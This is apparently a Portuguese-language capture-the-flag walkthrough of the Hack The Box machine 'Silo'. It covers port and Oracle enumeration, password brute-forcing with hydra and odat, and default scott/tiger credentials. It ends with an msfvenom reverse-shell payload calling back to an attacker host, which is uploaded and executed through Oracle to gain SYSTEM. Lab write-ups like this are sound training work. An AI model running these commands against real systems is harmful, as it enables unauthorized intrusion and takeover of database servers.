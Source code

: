 Silo
========================

# Enumeration

    sudo nmap_enum silo.htb
    
![qownnotes-media-aZxNuU](../../../media/qownnotes-media-aZxNuU.png)

Próximo passo foi abrir o browser para verificar web:

![qownnotes-media-tQlxRv](../../../media/qownnotes-media-tQlxRv.png)


## RPC enumeration

    rpcclient -N -U '' 10.10.10.82

Sem sucesso
 
## UDP Enumeration

    sudo nmap -sU -p 53,161,111,137,139,500,2049 -Pn 10.10.10.82 | tee nmap_udp_output.txt

![qownnotes-media-ZyHuhQ](../../../media/qownnotes-media-ZyHuhQ.png)


## All ports enumeration

    sudo nmap -T5 -Pn -p- 10.10.10.82 | tee nmap_allports_output.txt
     
 ![qownnotes-media-tmdjkx](../../../media/qownnotes-media-tmdjkx.png)

## Oracle Enumeration

Com base nisso, comecei a verificar que o problema poderia estar possivelmente no Oracle... Então prosseguimsos para este cara:

    sudo nmap -p 1521 -sV 10.10.10.82
    
    searchsploit tns listener
    
    nmap --script "oracle-tns-version" -p 1521 -T4 -sV 10.10.10.82
    
![qownnotes-media-BJxfYQ](../../../media/qownnotes-media-BJxfYQ.png)

Comecei a instalar ferramentas:

    sudo apt install tnscmd10g
    
    tnscmd10g version -p 1521 -h 10.10.10.82
    
    tnscmd10g version --10G -p 1521 -h 10.10.10.82
    
    hydra -P /usr/share/wordlists/rockyou.txt -t 32 -s 1521 10.10.10.82 oracle-listener
    
Tudo sem sucesso:

![qownnotes-media-FVvnyO](../../../media/qownnotes-media-FVvnyO.png)

Outra abordagem, com outra ferramenta:

https://github.com/quentinhardy/odat/blob/master-python3/README.md

Instalei o standalone desse cara com o seguintes comandos:

    wget https://github.com/quentinhardy/odat/releases/download/5.1.1/odat-linux-libc2.17-x86_64.tar.gz
    
    tar -xzvf odat-linux-libc2.17-x86_64.tar.gz
    
    cd odat-libc2.17-x86_64/
    
    sudo ln -s /media/owncloud/Area_de_trabalho/tools/linux/3-exploitation/odat/standalone/odat-libc2.17-x86_64/odat /usr/bin/odat
    
    odat sidguesser -s 10.10.10.82
    
![qownnotes-media-DpCTIX](../../../media/qownnotes-media-DpCTIX.png)

Descobrimos o SID do banco de dados:

XE

# Exploitation

Primeira tentativa é:

    odat passwordguesser -s 10.10.10.82 -d 'XE'

Vale coniderar que a ferramenta já utiliza um arquivo com senhas]

![qownnotes-media-xoEYuk](../../../media/qownnotes-media-xoEYuk.png)

Vamos tentar dessa forma primeiro

    odat passwordguesser -s 10.10.10.82 -d 'XE' --accounts-files login_certo.txt password_certo.txt

![qownnotes-media-GpQJaK](../../../media/qownnotes-media-GpQJaK.png)

    msfvenom -p windows/shell_reverse_tcp -f exe LHOST=10.10.14.4 LPORT=80 > rshell.exe
    
    odat utlfile -s 10.10.10.82 -d 'XE' -U scott -P tiger --sysdba --putFile 'C:\Users\Public\Documents' 'rshell.exe' 'rshell.exe'
    
    dat externaltable -s 10.10.10.82 -d 'XE' -U scott -P tiger --sysdba --exec 'C:\Users\Public\Documents' 'rshell.exe'

    nc -nlvp 80

![qownnotes-media-sjQTOf](../../../media/qownnotes-media-sjQTOf.png)

![qownnotes-media-siKecl](../../../media/qownnotes-media-siKecl.png)

![qownnotes-media-jgcASx](../../../media/qownnotes-media-jgcASx.png)

Já entramos como system

![qownnotes-media-FzpHBg](../../../media/qownnotes-media-FzpHBg.png)

